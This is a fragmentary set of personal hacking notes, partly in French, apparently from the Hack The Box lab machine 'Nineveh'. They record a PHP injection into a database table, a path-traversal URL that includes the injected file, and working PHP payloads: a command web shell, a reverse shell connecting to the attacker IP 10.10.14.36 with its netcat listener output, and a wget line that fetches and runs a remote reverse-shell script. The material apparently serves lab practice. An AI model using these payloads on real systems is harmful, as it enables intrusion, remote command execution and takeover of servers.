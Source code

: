 Let use a php injection CVE: https://www.exploit-db.com/exploits/24044

Table 'yolo' has been created.
CREATE TABLE 'yolo' ('yolo' TEXT default '<?php echo "Shell: ";system($_GET[''cmd'']); ?>')



http://nineveh.htb/department/manage.php?notes=files/../../../../../var/tmp/ninevehNotes.php
Parse error:  syntax error, unexpected 'cmd' (T_STRING), expecting ']' in /var/tmp/ninevehNotes.php on line 2

ninevehNotes.txt.php
<?php system('whoami'); ?> : not working..

- Payload qui marche 1
<?php $sock=fsockopen("10.10.14.36",4445);exec("/bin/sh -i <&3 >&3 2>&3");?>
```
# nc -lvp 4445
listening on [any] 4445 ...
connect to [10.10.14.36] from nineveh.htb [10.10.10.43] 41570
```
Connect, but close s soon...

![](img/https_10.10.10.43_db_create_exploit.png)


<?php system("wget 10.10.14.36/php-reverse-shell.php -O /tmp/shell.php; php /tmp/shell.php"); ?>
serve with python


## https:10.10.10.43/secure_notes


